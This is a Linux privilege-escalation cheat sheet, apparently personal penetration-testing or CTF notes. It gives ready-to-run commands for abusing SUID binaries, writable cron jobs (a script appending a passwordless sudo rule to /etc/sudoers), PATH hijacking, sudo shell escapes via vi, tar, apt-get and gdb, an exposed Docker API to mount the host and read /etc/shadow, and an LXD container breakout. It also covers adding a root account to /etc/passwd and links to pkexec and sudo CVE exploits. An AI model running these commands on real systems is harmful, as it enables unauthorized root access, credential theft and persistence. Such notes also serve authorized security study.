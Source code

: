 ### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()

### PRIVESC WITH PATH VARIABLE MANIPULATION
- If a binary does not detail the path to run another binary e.g not using (/usr/bin/curl) {stating the path}

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f0562606-ec66-47bb-a419-9293ca0a62f1)

- You can manipulate the path and get a root shell.It should be noted the binary you are exploiting must have a suidbit

      cd /tmp
      echo "/bin/sh" > <binary you eant to attack>
      chmod 700 curl
      export PATH=/tmp:$PATH

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cf277f1d-1664-4ea8-a1f0-1461101c5006)
   
### Privesc with pkexec(suidbit) ver 0.105(CVE-2021-4034)
   Use this <a href="https://github.com/arthepsy/CVE-2021-4034">exploit</a>
   <a href="https://www.exploit-db.com/exploits/50689">Exploit db's link</a>

### if a user is allowed to run vi as root with no password

             sudo /usr/bin/vi
             :!/bin/bash

### Privesc with tar if a user can run it as root with no password
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/43c6206f-dda5-4b01-9ca4-af2b28e47ca6)

- Use

       sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

### Privesc with docker api on port 2375

      docker -H <IP>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

### file access

      cat /mnt/etc/shadow

### RCE <getting root with that user>

     chroot /mnt

### PRIVESC WITH APT-GET IF A USER CAN RUN IT WITH SUDO

    sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
### Privesc on sudo version 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1 [Baron Samedit]

  ### Test it with

    sudoedit -s '\' $(python3 -c 'print("A"*1000)')
- Link to exploit <a href="https://github.com/blasty/CVE-2021-3156">Link to exploit</a>

### IF SUID BIT IS SET IN A GDB BINARY

    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

### PRIVESC WITH LXC MISCONFIGURED CONTAINER

- To check if a user is part of the lxd group,use this command

  `cat /etc/passwd | awk -F ':' '{print $1}' | xargs -L1 id | grep -i "lx"`
- Check if lxd is running as user with

    `cat /etc/passwd | grep "lxd"`
- Running processes of ps -aux
  `cat /etc/passwd | grep "lxd"`

- Build a container on your machine with this commands,run it as root though

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine
 
-  Receive it on your target machine with pyhton,test directories like `/dev/shm` or`/tmp`,receive the file on your target machine
 with python http.server.Send the one with a recent date

- Initiate the image

       lxc init alpine juggernaut -c security.privileged=true
       lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
       lxc start juggernaut
       lxc list

- Execute as root

      lxc exec juggernaut sh
  
- If you cannot find storage devices,you have to create one,use brtfs and if the server does not support ipv6,set it to none

      lxd init

- After executing,breakout with `chroot /mnt/root`

- Creating a new user can help us escalate privileges,on your system,do `openssl passwd {choice of password}` and in your target machine do this

      echo '[usernameyou want]:[openssl generated hash]:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd` 
  
  
